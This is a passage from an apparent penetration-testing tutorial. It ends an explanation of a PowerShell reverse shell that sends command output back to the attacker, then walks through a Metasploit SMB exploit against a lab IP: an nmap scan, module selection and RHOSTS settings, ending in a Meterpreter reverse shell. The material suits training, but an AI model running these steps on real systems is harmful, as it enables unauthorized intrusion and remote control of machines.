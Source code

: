 ` Prepares the command output and sends it back to the attacker.
Includes a PowerShell prompt (PS) showing the current directory.
7. Repeat Until Connection Closes: `$stream.Flush();` Ensures the buffer is fully sent before waiting for the next command.
8. Close the Connection: `$client.Close();` Closes the TCP connection when finished.

## Automating Payloads & Delivery with Metasploit

Metasploit, developed by Rapid7, is an automated attack framework that simplifies exploiting vulnerabilities using pre-built modules to deliver payloads and gain system access. It's widely used in cybersecurity, though some training environments limit its use due to how easy it makes exploitation.

__Starting MSF__ 
```
sudo msfconsole
```

In this case, we will be using enumeration results from a nmap scan to pick a Metasploit module to use.
__NMAP Scan__ 
```
nmap -sC -sV -Pn 10.129.164.25
```
In the output, we see several standard ports that are typically open on a Windows system by default. Remember that scanning and enumeration is an excellent way to know what OS (Windows or Linux) our target is running to find an appropriate module to run with Metasploit.
__Searching Within Metasploit__
```
search smb
```

We will see a long list of Matching Modules associated with our search. Notice the format each module is in. Each module has a number listed on the far left of the table to make selecting the module easier, a Name, Disclosure Date, Rank, Check and Description.
![image](https://github.com/user-attachments/assets/9a573134-4b3f-4845-a408-2c627cdf985e)

__Option Selection__
```
use 56
```
__Examining an Exploit's Options__ 
```
options
```

__Setting Options__ 
```
set RHOSTS 10.129.180.71
```
These settings will ensure that our payload is delivered to the proper target (RHOSTS), uploaded to the default administrative share (ADMIN$) utilizing credentials (SMBPass & SMBUser), then initiate a reverse shell connection with our local host machine (LHOST).
__Exploit Execution__
```
exploit
```
After we issue the exploit command, the exploit is run, and there is an attempt to deliver the payload onto the target utilizing the Meterpreter payload. Metasploit reports back each step of this process, as seen in the output. We know this was successful because a stage was sent successfully, which established a Meterpreter shell session (meterpreter >) and a system-level shell session. 
